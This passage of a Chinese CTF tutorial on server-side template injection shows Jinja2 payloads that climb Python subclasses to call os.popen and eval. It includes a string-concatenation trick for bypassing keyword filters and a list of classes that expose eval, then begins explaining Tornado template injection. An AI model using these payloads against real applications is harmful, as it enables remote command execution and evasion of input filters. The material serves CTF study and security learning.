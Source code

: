 ```
{%endfor%}
如果有关键词被过滤,可以使用字符串拼接的方法来绕过,例如import被过滤时,上面的payload可以改为:
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x.__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['popen']('ls /').read() }}
{%endif%}
{%endfor%}
以及正常的执行命令:
{{[].__class__.__bases__[0].__subclasses__()[59].__init__["__glo"+"bals__"]['__bui'+'ltins__']['ev'+'al']("__import__('os').popen('ls').read()")}}

```

其他几个含有`eval`的类:

```
warnings.catch_warnings
WarningMessage
codecs.IncrementalEncoder
codecs.IncrementalDecoder
codecs.StreamReaderWriter
os._wrap_close
reprlib.Repr
weakref.finalize
```





<br>

***

<br>

# Tornado(Python)

参考题目:[buuctf-[护网杯 2018]easy_tornado](2e610037.html)

> [`Tornado`](http://www.tornadoweb.org/) 是一个`Python web`框架和异步网络库，起初由 [FriendFeed](http://friendfeed.com/) 开发. 通过使用非阻塞网络I/O， Tornado可以支撑上万级的连接，处理 [长连接](http://en.wikipedia.org/wiki/Push_technology#Long_polling), [WebSockets](http://en.wikipedia.org/wiki/WebSocket) ，和其他需要与每个用户保持长久连接的应用. (**也就是一个开源的Web服务器软件,特点是非阻塞**)
>
> 文档:https://tornado-zh.readthedocs.io/zh/latest/index.html

**`render`**是`python`中的一个**渲染函数**，也就是一种**模板**，**通过调用的参数不同，生成不同的网页** ，如果用户对**`render`**内容可控，不仅可以注入`XSS`代码，而且还可以通过**`{{}}`**进行传递变量和执行简单的表达式。

将给定的模板与给定的上下文字典组合在一起，并以渲染的文本返回一个 `HttpResponse` 对象。

例如这里相传进去一个值为`Error`的`msg`参数后,被`render`处理并返回到浏览器上渲染:

<img src="/images/SSTI/image-20221016171017464.png" alt="image-20221016171017464" style="zoom:67%;" />
